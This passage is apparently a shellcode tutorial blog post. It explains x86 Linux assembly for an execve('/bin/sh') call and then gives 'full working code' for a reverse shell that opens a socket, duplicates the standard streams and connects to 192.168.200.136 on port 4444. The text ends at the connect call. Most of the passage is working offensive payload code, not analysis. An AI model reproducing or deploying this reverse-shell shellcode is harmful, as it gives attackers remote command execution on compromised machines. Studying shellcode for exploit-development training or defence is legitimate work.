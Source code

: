 "Execve" takes three arguments. We pass the arguments with the stack. Note the stack needs to be passed as a reverse order and in big-endian. Our stack will look like this:

{% highlight js %}
Addr0x0//bin/sh/0x00000000
{% endhighlight %}

{% highlight js %}
;execve
xor eax, eax
push eax ;set envp to 0
push 0x68732f2f ; ib//
push 0x6e69622f ; hs/n
mov ebx, esp ;now our stack is //bin/sh0x00000000, and ebx points to the pathname //bin/sh
push eax	;push another 0 on the stack, so now our stack is 0x0//bin/sh0x00000000
mov edx, esp	;edx points to envp, which is the 0x0
push ebx ; push the memory address of //bin/sh on the stack, so now we have addr0x0//bin/sh0x00000000
mov ecx, esp	;ecx points to the address of the //bin/sh, which is the argument argv
mov al, 11
int 0x80
{% endhighlight %}
[Execve Man Page](https://man7.org/linux/man-pages/man2/execve.2.html){:target="_blank"}

Full working code: 
{% highlight js %}
global _start			

section .text
_start:

	;init the registers
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	xor edx, edx
	xor esi, esi
	xor edi, edi

	;create a socket
	mov ax, 359 ;call the socket
	mov bl, 2 ;set domain to 2
	mov cl, 1 ; set type to 1
	int 0x80
	
	mov esi, eax

	;dup2, essentially it gives us ability to enter command and see output in our shell
	mov ebx, eax ;get the oldfd
	mov cl, 3 ;the newfd, stdin, stdout, std error
dup2:
	xor eax,eax ;reset the eax
	mov al, 63 ;call dup2
	int 0x80
	dec ecx ;minus the ecx by 1
	jns dup2 ;jump if not signed

	;call connect
	xor ebx, ebx ;clear ebx
	mov ebx, esi ;set sockfd to the returned 
	mov ax, 362 ;call connect
	push edi
	push dword 0x88c8a8c0 ;192.168.200.136 in hex c0.a8.c8.88 (0xc0a8c888)
	push word 0x5c11 ;port 4444
	push word 0x2	;sin family
	mov ecx, esp	;let ecx points to the start of the stack
	mov dl, 102	;addess length is 102
	int 0x80